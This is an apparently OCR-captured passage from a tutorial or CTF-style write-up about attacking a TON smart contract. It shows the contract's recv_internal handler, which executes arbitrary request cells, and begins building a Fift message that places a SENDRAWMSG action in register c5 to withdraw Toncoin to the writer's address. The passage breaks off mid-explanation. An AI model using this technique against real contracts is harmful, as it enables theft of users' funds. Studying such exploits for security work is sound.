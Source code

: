 	() recv_internal (in_msg_full, in_msg_body) {
		if (in_msg_body.slice_empty?()) { ;; ignore empty messages
			return ();
		}
		slice cs = in_msg_full.begin_parse();
		int flags = cs~load_uint(4);

		if (flags & 1) { ;; ignore all bounced messages
			return ();
		}
		slice sender_address = cs~load_msg_addr();

		load_data();
		authorize(sender_address);

		cell request = in_msg_body~load_ref();
		execute(request);
	}

### Parse message for hacking

To send a message, we need to write a fift script (which will give us a bag of cells structure that we will send to the TON network), let's start with the message body, for this we need `<b b>`

	"TonUtil.fif" include
	<b  b> =: message

According to the documentation, the message itself may look like this (further code in FunC):

	  var msg = begin_cell()
		.store_uint(0x18, 6)
		.store_slice(addr)
		.store_coins(amount)
		.store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1)
		.store_slice(message_body)
	  .end_cell();

Therefore, we write in the body, the address to which we want to withdraw Toncoin, denote the amount as 0 Gram, we will not write anything in the body, we get:

	"TonUtil.fif" include
	<b 0x18 6 u, 0 your address Addr, 0 Gram, 0 1 4 + 4 + 64 + 32 + 1 + 1 + u, b> =: message

But in the register `c5` it will be necessary to put not a message, but an action necessary for this message. We will send the message using `SENDRAWMSG`.

But first, let's figure out how to store data in the `c5` register. Here [here](https://ton-blockchain.github.io/docs/#/smart-contracts/tvm_overview?id=result-of-tvm-execution) the documentation says that this is a cell, with a link to the previous action , and with the last action. We don't have a previous action, so there will be an empty `Builder`.

	<b <b b> ref, здесь будет отправка сообщения ref, b>

> ref - adds a reference to Cell c to Builder b.

Go to `SENDRAWMSG`, take the "code" of the function from [371 lines here, directly from the block](https://github.com/ton-blockchain/ton/blob/d01bcee5d429237340c7a72c4b0ad55ada01fcc3/crypto/block/block.tlb) and see , according to [TVM documentation on page 137](https://ton-blockchain.github.io/docs/tvm.pdf), which parameters should be collected:
